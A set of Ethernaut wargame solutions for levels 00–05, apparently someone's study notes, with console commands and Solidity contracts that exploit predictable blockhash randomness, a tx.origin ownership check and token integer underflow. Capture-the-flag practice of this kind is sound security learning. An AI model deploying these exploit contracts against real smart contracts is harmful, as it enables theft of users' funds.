 # Levels

## Level 00

https://ethernaut.openzeppelin.com/level/0

```Javascript
await contract.password()
await contract.authenticate("ethernaut0")
```

https://mumbai.polygonscan.com/tx/0xb479fa5cda3731d1ceb34cd1b7788f30022e31d63eaf4ebc63351c22aa3f3806

## Level 01

https://ethernaut.openzeppelin.com/level/1

```javascript
await contract.owner() 
await contract.contributions("0x2a24869323C0B13Dff24E196Ba072dC790D52479")
await contract.contribute.sendTransaction({from: player, value: toWei('0.0009')})

await sendTransaction({from: player, to: contract.address, value: toWei('0.0000000001')})
await contract.withdraw()
```

## Level 02

https://ethernaut.openzeppelin.com/level/2

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Fallout {
    function Fal1out() external payable;
}
```

https://mumbai.polygonscan.com/tx/0x0473d27f57f28a8d48ecfecef2faf4e89f82cd3a79e6af2675faefd0761e44d4

## Level 03

https://ethernaut.openzeppelin.com/level/3

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface ICoinFlip {
    function consecutiveWins() external view returns (uint256);
    function flip(bool) external returns (bool);
}

contract Hack {
    ICoinFlip private immutable coinflip;
    uint256 private constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _address) {
        coinflip = ICoinFlip(_address);
    }

    function flip() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        coinflip.flip(side);
    }    
}
```

call `flip()` until `consecutiveWins` is 10

## Level 04

https://ethernaut.openzeppelin.com/level/4

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function owner() external view returns (address);
    function changeOwner(address _owner) external;
}

contract HackTelephone {
    constructor(address _address) {
        ITelephone(_address).changeOwner(msg.sender);
    }
}
```

## Level 05

https://ethernaut.openzeppelin.com/level/5

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IToken {
    function transfer(address _to, uint _value) external returns (bool);
    function balanceOf(address _owner) external view returns (uint balance);
}

contract tokenHack {
    IToken private token;

    constructor(address _address) public  {
        token = IToken(_address);
    }

    function transfer(address _to) public {
        uint _value = 115392089237316195423570985008687907853269984665640564039457584007913129639935;
        token.transfer(_to, _value);
    }
}
```

